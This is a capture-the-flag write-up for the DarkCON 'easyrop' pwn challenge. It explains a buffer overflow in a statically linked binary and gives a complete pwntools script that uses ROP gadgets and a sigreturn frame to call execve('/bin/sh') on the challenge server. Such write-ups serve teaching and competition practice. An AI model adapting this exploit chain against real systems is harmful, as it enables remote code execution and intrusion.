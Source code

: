 ## DarkCON CTF: easyrop [pwn]
![](easyrop_desc.png)

##### *tl;dr: buffer overflow + multiple rop approaches (I used sigrop here)*
#### The program had a buffer overflow vulnerability and was statically linked thus having a lot of possible ROP gadgets. Since I was too lazy to look and chain gadgets, I opted for a much simpler sigrop approach.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./easy-rop', checksec = False)
#: libc = ELF('./libc.so', checksec = False)

p = process('./easy-rop')
#: p = process('./easy-rop', env = {'LD_PRELOAD' : libc.path})
p = remote("65.1.92.179", 49153)
print(p.recvuntil('name:'))

#: GDB SETTINGS
breakpoints = ['break *0x401e85']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rax = 0x00000000004175eb
pop_rdi = 0x000000000040191a
syscall = 0x00000000004012d3

frame = SigreturnFrame(kernel = "amd64")
frame.rax = 0x3b #: execve syscall
frame.rdi = 0x4c2220 #: /bin/sh string in memory
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall #: execve('/bin/sh', 0, 0);

#: PWN THY VULNS
exploit = cyclic(72)
exploit += p64(pop_rdi)
exploit += p64(0x4c2220) #: .bss
exploit += p64(binary.symbols['gets'])
exploit += p64(pop_rax)
exploit += p64(0xf)
exploit += p64(syscall)
exploit += str(frame)

p.sendline(exploit)
p.sendline('/bin/sh\x00')
p.interactive()
```
![](easyrop_shell.png)